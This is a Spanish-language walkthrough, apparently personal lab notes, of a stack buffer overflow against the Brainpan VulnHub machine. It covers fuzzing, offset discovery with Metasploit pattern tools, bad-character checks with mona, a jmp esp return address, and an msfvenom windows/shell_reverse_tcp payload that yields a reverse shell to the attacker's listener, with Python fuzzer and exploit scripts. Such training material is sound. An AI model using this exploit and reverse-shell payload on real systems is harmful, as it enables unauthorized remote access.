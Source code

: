 Para explotar un BoF, vamos a estar utilizando la máquina brainpan de la plataforma vulnhub:
[[MAQUINA BRAINPAN (Buffer Overflow)]]
```bash
https://www.vulnhub.com/entry/brainpan-1,51/
```
![[Pasted image 20231201132955.png]]
Hacemos el escaneo con nmap:
![[Pasted image 20231130105922.png]]
Accedemos al contenido del puerto 10000 ya que vemos que corre algo por HTTP:
![[Pasted image 20231130105957.png]]
Realizamos fuzzing web y encontramos el directorio /bin:
![[Pasted image 20231130110024.png]]
Vamos a ejecutar este binario dentro de una máquina windows para analizarlo mejor:
![[Pasted image 20231130110044.png]]
Y vemos que lo que hace es levantar un servicio por el puerto 9999 (puerto que ya estaba abierto en la máquina objetivo). Para ello lo compartimos con una máquina windows 7 para ejecutarlo desde ahí:
![[Pasted image 20231130110205.png]]
![[Pasted image 20231130110250.png]]
Y lo ejecutamos, donde podemos confirmar cómo se levanta un servicio por el puerto 9999:
![[Pasted image 20231130110407.png]]
El siguiente paso será instalar el inmunity debugger en la máquina windows para monitorear el programa, ya que el objetivo es ejecutar el binario para identificar si dispone de alguna vulnerabilidad que permita lanzar un shellcode contra nuestro verdadero target:
![[Pasted image 20231130110510.png]]
Una vez ejecutado el programa y habiéndolo cargado anteriormente, lanzamos un escaneo de nmap contra la máquina windows y vemos que inmunnity debugger lo tiene ejecutado por el mismo puerto:
![[Pasted image 20231130110407.png]]
Y también debemos configurar el mona, lo cual será el script que nos permita aplicar filtros y realizar comprobaciones más adelante, por lo que debemos dirigirnos al siguiente repositorio de github:
![[Pasted image 20231201110335.png]]
Nos descargamos el script de mona:
![[Pasted image 20231201110353.png]]
Y lo pegamos dentro de la carpeta de PyCommands del inmunity debugger:
![[Pasted image 20231130155816.png]]

El siguiente paso será establecer un directorio de trabajo donde vamos a trabajar con el inmunity debugger, por lo que hay que ejecutar el siguiente comando:
```python
!mona config -set workingfolder C:\Users\mario\Desktop\bof
```
![[Pasted image 20231201102345.png]]
El siguiente paso será utilizar un script de python para realizar el fuzzing para ir probando en qué punto se crashea el programa:
```python
#!/usr/bin/env python3
  
import socket, time, sys

ip = ""  
port = 9999
timeout = 1
prefix = ""
  
string = prefix + "A" * 100
  
while True:
   try:
     with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
       s.settimeout(timeout)
       s.connect((ip, port))
       s.recv(1024)
       print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
       s.send(bytes(string, "latin-1"))
       s.recv(1024)
   except:
     print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
     sys.exit(0)
   string += 100 * "A"
   time.sleep(1)
```
Lo ejecutamos y vemos que el programa crashea a los 600 bytes:
![[Pasted image 20231130110825.png]]
Una vez ejecutado vemos que el EIP marca 414141, lo cual es lo que debe ocurrir (el EIP consiste en la dirección de la próxima instrucción que se ejecutará):
![[Pasted image 20230906192346.png]]
## OBTENER EL OFFSET
Una vez obtenido el punto exacto donde crashea el programa, vamos a necesitar el offset, lo cual consiste en la cantidad de bytes que hay desde el comienzo del búfer hasta el punto donde se produce el desbordamiento.

Y para ello vamos a enviar un número de esa data algo mayor, por lo que por ejemplo vamos a sumar +400 bytes, por lo que si el programa crasheaba a los 600, le añadimos unos +400 que hacen 1000.

---------------------------

Para este punto, vamos a necesitar otro script de python, que será el siguiente:
```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
Y ahora en nuestra terminal vamos a ejecutar un módulo de metasploit llamado pattern_create.rb donde insertaremos los 1000 bytes:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```
![[Pasted image 20231201100104.png]]
Y ahora esta data la vamos a pegar dentro de la variable Payload del script de python mostrado anteriormente:
![[Pasted image 20231201100147.png]]
Ahora nos dirigimos al Immunity Debugger y ejecutamos el siguiente comando de mona, ponemos 600 porque es donde el programa crashea:
```python
!mona findmsp -distance 600
```
Ejecutamos este exploit:
![[Pasted image 20231201100459.png]]
Y en el inmunnity debugger nos debería de salir otro número en el EIP:
![[Pasted image 20231201101012.png]]
Una vez obtenido este número de EIP, ya podemos obtener el offset ejecutando este comando:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 72413172
```
![[Pasted image 20231201101101.png]]
Lo añadimos a nuestro exploit, además de añadir BBBB en la variable retn:
![[Pasted image 20231201101201.png]]
Lanzamos nuevamente el exploit:
![[Pasted image 20231201101444.png]]
Y deberíamos de tener este resultado en el EIP:
![[Pasted image 20231201101501.png]]
## BAD CHARS
El siguiente paso será obtener los bad chars, lo cual consiste en que para ciertos servicios existen algunos caracteres que no se aceptan, provocando una ejecución errónea cuando generamos la shellcode. Estos caracteres se denomina bad character y debemos de eliminarlos de nuestro exploit.

------------------------------

Para testearlo, vamos a instalar la librería badchars de python:
![[Pasted image 20230906194513.png]]
Y con este comando generamos las badchars totales:
![[Pasted image 20230906194536.png]]
Y añadimos esto dentro de nuesto script de python en la variable payload:
![[Pasted image 20230906195052.png]]
Y ahora vamos ejecutar el siguiente comando en el Immunity !mona bytearray -b "\x00" para que tenga un archivo con el que comparar el de la aplicación, y si hay algún bad char nos lo llegaría a mostrar:
![[Pasted image 20231201102116.png]]
Y vemos que se nos guarda este reporte en el archivo llamado bytearray (gracias a que al principio del todo hemos establecido el entorno de trabajo):
![[Pasted image 20231201102504.png]]
Reiniciamos el binario en el inmmunity debugger:
![[Pasted image 20231130152020.png]]
Lanzamos nuevamente el exploit y nos fijamos en el número ESP:
![[Pasted image 20231201102609.png]]
![[Pasted image 20231201102638.png]]
Una vez obtenido el número de ESP, ejecutamos el siguiente comando para comprobar la existencia de bad characters:
```python
!mona compare -f C:\Users\mario\Desktop\bof\bytearray.bin -a 005FF910
```
Y se nos debería abrir esta ventana:
![[Pasted image 20231201103106.png]]
Y no tenemos ningún bad char (a excepción del \x00 que ese siempre es bad char):
![[Pasted image 20231201103134.png]]
Si hubiera algún bad char, habría que quitarlo del exploit:
![[Pasted image 20231201103240.png]]
## POINTER
Ahora tenemos que darle un punto de salto donde ejecutar, es decir, con el pointer el atacante puede dirigir la ejecución del programa hacia código malicioso, por lo que con este comando estaríamos buscando las instrucciones de "jmp esp". Por lo que ejecutamos el siguiente comando, con los badchars que nos haya aparecido anteriormente (en nuestro caso cómo mínimo es el x00 ya que este número siempre es un bad char):
```python
!mona jmp -r esp -cpb "\x00"
```
Y se nos muestra el pointer, el cual es 0x311712f3:
![[Pasted image 20231201103636.png]]
Ahora volvemos a ejecutar el programa haciendo clic en el siguiente botón, donde se nos debería abrir un apartado para insertar datos:
![[Pasted image 20231201103842.png]]
Aquí pondremos el pointer obtenido anteriormente:
![[Pasted image 20231201103911.png]]
Damos a OK y nos fijamos en el siguiente campo:
![[Pasted image 20231201103959.png]]
Lo seleccionamos y hacemos clic en F2, donde a continuación le daremos al play:
![[Pasted image 20231201104056.png]]
## GENERAR SHELLCODE
Ahora ya lo tenemos todo preparado para generar el shellcode, por lo que usaremos msfvenom de la siguiente forma:
```python
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.32 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
![[Pasted image 20231201104319.png]]
Pegamos este resultado en la variable payload del exploit.py:
![[Pasted image 20231201104514.png]]
Y cambiamos las siguientes variables, donde la variable retn es el número del jmp que vimos anteriormente pero al revés; y el padding significa el conjunto de datos adicionales que se añaden a la estructura de datos:
```python
retn= "\xf3\x12\x17\x31"
padding = "\x90" * 16
```
![[Pasted image 20231201104946.png]]
Ponemos la IP real del objetivo (ya no estamos testeando con el inmunity debugger, sino que atacaremos al target real):
![[Pasted image 20231201105050.png]]
Lo ejecutamos:
![[Pasted image 20231201105126.png]]
Y mientrar estamos escuchando con netcat, habremos recibido la reverse shell gracias al shellcode generado anteriormente:
![[Pasted image 20231201105139.png]]
